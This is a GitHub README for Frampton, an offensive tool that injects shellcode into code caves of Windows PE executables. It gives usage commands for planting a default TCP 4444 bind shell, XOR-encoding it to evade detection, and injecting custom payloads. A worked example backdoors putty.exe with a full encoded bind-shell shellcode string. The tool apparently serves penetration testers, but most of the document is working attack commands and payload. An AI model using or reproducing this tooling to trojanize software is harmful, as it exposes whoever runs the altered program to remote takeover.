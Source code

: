 # Frampton
![](https://img.shields.io/maintenance/yes/2021.svg)
[![GitHub pull-requests](https://img.shields.io/github/issues-pr/ins1gn1a/Frampton.svg)](https://GitHub.com/ins1gn1a/Frampton/pulls/)
[![GitHub contributors](https://img.shields.io/github/contributors/ins1gn1a/Frampton.svg)](https://GitHub.com/ins1gn1a/Frampton/graphs/contributors/)
[![GitHub issues](https://img.shields.io/github/issues/ins1gn1a/Frampton)](https://github.com/ins1gn1a/Frampton/issues)
[![GitHub stars](https://img.shields.io/github/stars/ins1gn1a/Frampton)](https://github.com/ins1gn1a/Frampton/stargazers)
[![GitHub license](https://img.shields.io/github/license/ins1gn1a/frampton)](https://github.com/ins1gn1a/Frampton/blob/master/LICENSE)

PE Binary Shellcode Injector - Automated code cave discovery, shellcode injection, ASLR bypass

## Install
`pip3 install -r requirements.txt`

## Usage
```
usage: frampton.py [-h] --file FILE [--shellcode SHELLCODE] [--output OUTFILE]
                   [--info] [--encoder] [--multi-encoder ENCODERMULTIPLE]

Frampton PE file Injector

optional arguments:
  -h, --help            show this help message and exit
  --file FILE, -f FILE  Filename or path to base template PE file
  --shellcode SHELLCODE, -s SHELLCODE
                        Enter custom shellcode - architecture specific x86/x64
                        (optional) - Default: Windows x86 TCP 4444 Bind Shell
  --output OUTFILE, -o OUTFILE
                        Filename or path to new destination PE file (optional)
  --info, -i            Only display code cave information - does not inject
                        or modify (optional)
  --encoder, -e         Use built-in shellcode XOR encoder - x86 only
                        (optional)
  --multi-encoder ENCODERMULTIPLE, -m ENCODERMULTIPLE
                        Specify the number of auto-generated keys to encode
                        shellcode (optional)
```

#### Information Only (no injection)
```./frampton.py -f FILENAME.exe -i```

![Frampton Example](https://github.com/ins1gn1a/Frampton/blob/master/example2.png?raw=true)


#### Built-in basic bind shell (TCP 4444) 
```./frampton.py -f FILENAME.exe```

#### Built-in basic bind shell (TCP 4444) with XOR encoder
```./frampton.py -f FILENAME.exe -e```

#### Built-in basic bind shell (TCP 4444) with multiple XOR encoder
```./frampton.py -f FILENAME.exe -e -m 4```

#### Custom Shellcode Injector 
```./frampton.py -f FILENAME.exe -s "\xSH\xEL\xCO\xDE\xHE\xRE```

#### Custom Shellcode Injector with XOR encoder
```./frampton.py -f FILENAME.exe -s "\xSH\xEL\xCO\xDE\xHE\xRE -e```

#### Custom Shellcode Injector with multiple XOR encoder
```./frampton.py -f FILENAME.exe -s "\xSH\xEL\xCO\xDE\xHE\xRE -e -m 4```

## Example 

Encoding a 32-bit Putty PE file with Shikata_ga_nai encoding TCP bind shellcode, further encoding with 10 XOR keys.
```
./frampton.py -f putty.exe -e -m 10 -s "\xd9\xe8\xbd\xa0\xdb\xbd\x87\xd9\x74\x24\xf4\x58\x29\xc9\xb1\x53\x83\xc0\x04\x31\x68\x13\x03\xc8\xc8\x5f\x72\xf4\x07\x1d\x7d\x04\xd8\x42\xf7\xe1\xe9\x42\x63\x62\x59\x73\xe7\x26\x56\xf8\xa5\xd2\xed\x8c\x61\xd5\x46\x3a\x54\xd8\x57\x17\xa4\x7b\xd4\x6a\xf9\x5b\xe5\xa4\x0c\x9a\x22\xd8\xfd\xce\xfb\x96\x50\xfe\x88\xe3\x68\x75\xc2\xe2\xe8\x6a\x93\x05\xd8\x3d\xaf\x5f\xfa\xbc\x7c\xd4\xb3\xa6\x61\xd1\x0a\x5d\x51\xad\x8c\xb7\xab\x4e\x22\xf6\x03\xbd\x3a\x3f\xa3\x5e\x49\x49\xd7\xe3\x4a\x8e\xa5\x3f\xde\x14\x0d\xcb\x78\xf0\xaf\x18\x1e\x73\xa3\xd5\x54\xdb\xa0\xe8\xb9\x50\xdc\x61\x3c\xb6\x54\x31\x1b\x12\x3c\xe1\x02\x03\x98\x44\x3a\x53\x43\x38\x9e\x18\x6e\x2d\x93\x43\xe7\x82\x9e\x7b\xf7\x8c\xa9\x08\xc5\x13\x02\x86\x65\xdb\x8c\x51\x89\xf6\x69\xcd\x74\xf9\x89\xc4\xb2\xad\xd9\x7e\x12\xce\xb1\x7e\x9b\x1b\x2f\x76\x3a\xf4\x52\x7b\xfc\xa4\xd2\xd3\x95\xae\xdc\x0c\x85\xd0\x36\x25\x2e\x2d\xb9\x58\xf3\xb8\x5f\x30\x1b\xed\xc8\xac\xd9\xca\xc0\x4b\x21\x39\x79\xfb\x6a\x2b\xbe\x04\x6b\x79\xe8\x92\xe0\x6e\x2c\x83\xf6\xba\x04\xd4\x61\x30\xc5\x97\x10\x45\xcc\x4f\xb0\xd4\x8b\x8f\xbf\xc4\x03\xd8\xe8\x3b\x5a\x8c\x04\x65\xf4\xb2\xd4\xf3\x3f\x76\x03\xc0\xbe\x77\xc6\x7c\xe5\x67\x1e\x7c\xa1\xd3\xce\x2b\x7f\x8d\xa8\x85\x31\x67\x63\x79\x98\xef\xf2\xb1\x1b\x69\xfb\x9f\xed\x95\x4a\x76\xa8\xaa\x63\x1e\x3c\xd3\x99\xbe\xc3\x0e\x1a\xce\x89\x12\x0b\x47\x54\xc7\x09\x0a\x67\x32\x4d\x33\xe4\xb6\x2e\xc0\xf4\xb3\x2b\x8c\xb2\x28\x46\x9d\x56\x4e\xf5\x9e\x72"
```
![Frampton Example](https://github.com/ins1gn1a/Frampton/blob/master/example.png?raw=true)
